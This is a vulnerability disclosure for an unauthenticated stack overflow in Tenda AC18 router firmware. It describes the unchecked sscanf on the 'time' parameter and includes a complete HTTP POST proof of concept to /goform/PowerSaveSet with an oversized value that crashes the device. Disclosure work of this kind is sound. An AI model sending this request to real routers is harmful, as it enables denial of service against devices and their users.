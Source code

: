 # Tenda AC18 Unauthorized stack overflow vulnerability

## **1. Affected version:**

V15.03.05.05_multi and V15.03.05.19_multi

## **2. Firmware download address**

https://www.tenda.com.cn/download/detail-2683.html

## **3. Vulnerability details**

![img](https://www.kdocs.cn/api/v3/office/copy/b1Y4dkNXVWo5aFdWc1hpOXJMdEFoNFhYQU1QbXlUbzFwTkRPbXJTOXVmM3lkQm95V1VrUTVLZEd1c3p4OE1wdkhaenpXcmQyZXYxdnZpT3g5eXBxclZYYjBFdTBYOTlQZ0ovejVvd0NQQnpBMm0vWXFlMS9zMEZhVFJpdHdTaEdydTFxNmxySWNLNFZaVUJmN09MRDhCcjNRbkIwZU5iYUZTTDArUENwOStWTkd5TlhwbktiZXZlaUpXWklLYnd2ZGVoTFlmWFExZDJRYStBdGRXblQ2RUtNU0VRN2UrZlAyVnZDblZyRHR5MXBva1d0Y25UbE0vTGNhSVV6/attach/object/dd5646441bc02e899633982e20f60963d5051b39)

The v13 variable is obtained directly from the http request parameter time .
Then v13 will be splice to stack by function sscanf without any security check, which causes
stack overflow.
So by POSTing the page /goform/PowerSaveSet with long time , the attacker can easily perform
a Denial of Service(DoS).

## **4. Recurring vulnerabilities and POC**

In order to reproduce the vulnerability, the following steps can be followed:

1.Use the fat simulation firmware V15.03.05.19_multi

2.Attack with the following overflow POC attacks



```
POST /goform/PowerSaveSet HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1999
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/sleep_mode.html?random=0.9629635312680853&
Cookie: password=0d403f6ad9aea37a98da9255140dbf6ektscvb
powerSavingEn=1&time=11111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111111
11111111111111111111111111111111111111111111111100%3A0001%3A00&ledCloseType=all
Close&powerSaveDelay=1
```

This PoC can result in a Dos.

